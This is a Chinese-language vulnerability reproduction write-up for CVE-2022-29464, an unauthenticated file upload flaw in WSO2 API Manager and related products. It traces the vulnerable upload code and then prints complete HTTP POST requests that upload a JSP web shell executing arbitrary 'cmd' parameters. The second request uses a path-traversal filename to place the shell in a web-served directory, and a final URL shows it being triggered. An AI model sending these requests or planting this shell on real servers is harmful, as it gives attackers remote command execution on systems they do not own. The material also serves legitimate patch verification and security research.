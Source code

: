 # WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464

## 漏洞描述

CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## 漏洞影响

```
WSO2 API Manager 2.2.0 and above
WSO2 Identity Server 5.2.0 and above
WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0
WSO2 Identity Server as Key Manager 5.3.0 and above
WSO2 Enterprise Integrator 6.2.0 and above
```

## 环境搭建

https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip

https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip

## 漏洞复现

下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

![](images/202205241641592.png)

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

![](images/202205241641901.png)

运行后访问 localhost:9443 出现如下即搭建完成

![](images/202205241642560.png)

在配置文件 identity.xml 中我们可以看到 路由 `/fileupload` 中不存在权限鉴定, 对应的 Servlet 为 FileUploadServlet

![](images/202205241642432.png)

文件上传为POST请求，对应的处理方法为 `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

继续向下，略过调用方法的过程

```
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![](images/202205241642357.png)

![](images/202205241642961.png)

最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](images/202205241642011.png)

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

![](images/202205241642860.png)

```
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![](images/202205241643581.png)

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置, 查找可以解析 jsp文件的目录

![](images/202205241643426.png)

构造请求包，通过控制文件名的方法上传至该目录中

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](images/202205241643756.png)

访问上传的文件，`/authenticationendpoint/xxx.jsp?cmd=ls`

![](images/202205241643038.png)